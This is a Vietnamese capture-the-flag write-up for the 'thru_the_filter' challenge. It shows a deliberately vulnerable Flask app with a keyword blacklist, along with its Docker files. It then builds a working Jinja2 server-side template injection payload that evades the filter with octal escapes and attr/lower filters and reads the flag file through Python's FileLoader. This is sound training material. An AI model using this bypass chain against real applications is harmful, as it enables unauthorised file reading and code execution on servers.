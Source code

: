 # thru_the_filter
**Solver: phulelouch & goldensang**

### 1. Context
Nhìn sơ qua các file nhé
*docker-entrypoint.sh*
```shell
#!/bin/sh

# Generate random flag name
random_flag_name="flag_$(cat /dev/urandom | tr -dc 'a-zA-Z0-9' | fold -w 10 | head -n 1).txt"

# Specify flag content
flag_content="ISITDTU{test_flag}"

# Move flag file to root directory
echo "$flag_content" > /"$random_flag_name"

# Set permissions for flag file
chmod 744 /"$random_flag_name"

# Get the user
user=$(ls /home)

# Set permissions for /app directory
chmod 740 /app/*

# Change directory and run Flask
cd /app && flask run -h 0.0.0.0 -p 8080
```
*Dockerfile*
```shell
FROM python:3.10-slim-bullseye
LABEL auther_template="khanhhnahk1"


RUN sed -i 's/deb.debian.org/mirrors.ustc.edu.cn/g' /etc/apt/sources.list && \
    sed -i 's/security.debian.org/mirrors.ustc.edu.cn/g' /etc/apt/sources.list
RUN apt-get update 

# install flask
RUN python3 -m pip install -i https://pypi.tuna.tsinghua.edu.cn/simple \
    flask

# Copy the source code and startup script to the root directory
COPY ./src/ /app
COPY ./service/docker-entrypoint.sh /

# expose port
EXPOSE 8080
RUN groupadd -r thru_the_filter && useradd -r -g thru_the_filter thru_the_filter
RUN echo "ISITDTU{test_flag}"> /app/flag.txt
RUN chmod 440 /app/flag.txt
RUN chown -R root:thru_the_filter /app


USER thru_the_filter

WORKDIR /app
ENTRYPOINT ["/bin/bash","/docker-entrypoint.sh"]
```
*app.py*
```python
from flask import Flask, request, render_template_string,redirect

app = Flask(__name__)
def check_payload(payload):
    blacklist = ['import', 'request', 'init', '_', 'b', 'lipsum', 'os', 'globals', 'popen', 'mro', 'cycler', 'joiner', 'u','g','args', 'get_flashed_messages', 'base', '[',']','builtins', 'namespace', 'self', 'url_for', 'getitem','.','eval','update','config','read','dict']
    for bl in blacklist:
        if bl in payload:
            print(bl)
            return True
    return False
@app.route("/")
def home():
    if request.args.get('c'):
        ssti=request.args.get('c')
        if(check_payload(ssti)):
            return "HOLD UP !!!"
        else:
            return render_template_string(request.args.get('c'))
    else:
        return redirect("""/?c={{ 7*7 }}""")


if __name__ == "__main__":
    app.run()

```

Nhìn sơ qua app thì ta có thể thấy được, flow chạy của application sẽ như sau:
- Build application với Dockerfile với image là:  python:3.10-slim-bullseye
- Dockerfile sẽ trỏ tới docker-entrypoint.sh
- docker-entrypoint.sh sẽ chạy file app.py dùng Flask.

Observation từ các file docker nói chung:
- những cái màu mè từ phải docker-entrypoint.sh có thể bỏ qua, flag dc lưu ở /app/flag.txt như trong file Dockerfile, chủ yếu là distraction, những cái màu mè ở file docker-entrypoint.sh thì làm mọi ng distract, nếu có RCE thì may ra làm theo hướng exploit cái đó dc :v còn không thì nên focus vô.
- file flag dc set quyền 440, nghĩa là chỉ owner của file với group dc trao quyền mới đọc được, nghĩa là phải exec code từ server-side, và tìm cách đẩy lên browser để mà ae mình lấy flag -> ý tưởng SSTI
- trong lúc làm bài, có ý tưởng làm XSS, nhưng code exec ở phía client-side, nên cũng no-hope.

Phân tích *app.py*:
- Xài Flask, và có một checkpoint check blacklist trong string, chỉ cần match string là fail
- Và blacklist khá gắt, nên phải tìm cách bypass từng cái một
- render_template_string() là nơi có thể exploit nhất, đặc biệt với SSTI, giờ chỉ cần tìm payload phù hợp
- đọc thêm SSTI ở: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/README.md

Tóm tắt SSTI ở bài này:
- Cơ chế hoạt động là nó xài Jinja String Template để render HTML, nói nôm na là 1 file template HTML, nó có những syntax để mình bỏ biến vô, nhưng rất hạn chế.
- Payload để prove SSTI work với bài này mà mình với anh Phú xài: `http://34.124.244.195:1338/?c={{7*7}}`
- blacklist block hết các hàm phổ biến, nên phải mò kinh thánh một hồi mới mò ra được các thứ nó work

Cách mình với anh Phú xây dựng payload:
```
http://34.124.244.195:1338/?c={{7*7}}

Dựa trên phần Jinja2 - Filter bypass kinh thánh, thì tụi mình test thử payload này

{{request|attr('application')()}}
Mà nó chặn request rồi, mà tụi nó không chặn string nên payload nó thành như vầy

{{ ''.__class__.__mro__[2].__subclasses__()}}

Nhưng gặp phải blacklist _, [, ] và cả class, sau một hồi mình mò, thì nhận ra là combine 2 tụi nó lại, tụi mình có thể forge payload nó nhin như thế này:
{{'' | attr('asdfsdaf')()}}

Thì nó chuyển về xử lý string hết, và attr() ko bị block
- Để solve _ thì tụi mình có thể convert nó qua %x5f, %X5f, và bí một hồi thì mới nhận ra chuyển qua octa cũng được =)) nên thành \137
- Có được insights này thì tụi mình nhận ra là convert những ký đặc biệt bị block qua octa, và những từ bị block thành dạng 'ABC' | lower (này search chatgpt với google ra dc syntax của Jinja, syntax tụi nó vậy)

'ABC' | lower => 'abc'
'\137' => '_' 
Rồi với những insights này thì việc còn lại là dò theo payload, convert nó qua định dạng không bị block, ban đầu tụi mình thử exploits hàm Popen, mà nó bủh quá, anh Phú tìm 1 hồi ra được cái hàm FileLoader trong hệ thống của python

Payload:
http://34.124.244.195:1338/?c={{''|
attr('\137\137CLASS\137\137'|lower)|
attr('\137\137MRO\137\137'|lower)|
last|
attr('\137\137SUBCLASSES\137\137'%20|%20lower()|
attr('\137\137GETITEM\137\137'%20|%20lower)(118)("/APP/FLAG\056TXT","/APP/FLAG\056TXT")|
attr('GET\137DATA'%20|%20lower)("/APP/FLAG\056TXT"|lower)}}

Tóm tắt cơ chế hoạt động, thì python nó có chỗ lưu các biến, hàm global hoặc ngoài context của class, cái này mọi người đọc.
Thì mò một hồi, ra được cái hàm này :v đấm phát ăn luôn flag
b'ISITDTU{tough_times_create_tough_guys!@@%#0@}\n'
```

But faster: https://github.com/Marven11/Fenjing :(
